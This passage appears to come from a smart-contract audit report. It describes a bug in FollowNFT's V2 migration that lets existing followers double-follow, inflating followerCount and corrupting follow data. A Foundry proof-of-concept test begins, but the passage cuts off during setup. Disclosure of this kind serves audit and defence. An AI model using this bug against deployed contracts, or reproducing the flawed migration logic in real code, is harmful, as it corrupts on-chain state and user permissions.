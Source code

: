 As the state of the  `FollowNFT` contract is now corrupt, followers can perform functions that they normally should not be able to, such as unfollowing when their profile is not a follower (`isFollowing()` returns `false`). 

### Impact

Users who are followers before the V2 upgrade will be able to follow with a single profile twice, causing `followerCount` to be higher than the actual number of profiles following.

Addtionally, as `_followDataByFollowTokenId` is corrupted, followers might be able to call functions when they should not be allowed to, potentially leading to more severe impacts.

### Proof of Concept

The Foundry test below demonstrates that `tryMigrate()` can be called although the user is already following, and how `followerCount` and `_followDataByFollowTokenId` will be corrupted as a result. It can be run with the following command:

```
forge test --match-test testCanMigrateWhileFollowing -vvv
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import 'test/base/BaseTest.t.sol';

contract FollowMigration_POC is BaseTest {
    address target = address(0x1337);
    address ALICE;

    uint256 targetProfileId;
    uint256 aliceProfileId;

    uint256 oldFollowTokenId;

    function setUp() public override {
        super.setUp();

        // Setup addresses for Alice
        ALICE = makeAddr("Alice");

        // Create profile for target and Alice 
        targetProfileId = _createProfile(target);
        aliceProfileId = _createProfile(ALICE);

        // Add simulateV1Follow() helper function to FollowNFT implementation
        FollowNFTHelper implementation = new FollowNFTHelper(address(hub));  
        vm.etch(hub.getFollowNFTImpl(), address(implementation).code);
        
        // Follow and unfollow to deploy target's FollowNFT contract
        vm.startPrank(defaultAccount.owner);
        hub.follow(
            defaultAccount.profileId,
            _toUint256Array(targetProfileId),
            _toUint256Array(0),
            _toBytesArray('')
        );
        hub.unfollow(defaultAccount.profileId, _toUint256Array(targetProfileId));
        vm.stopPrank();

        // Get FollowNFT contract
        address followNFTAddress = hub.getProfile(targetProfileId).followNFT; 
        followNFT = FollowNFT(followNFTAddress);

```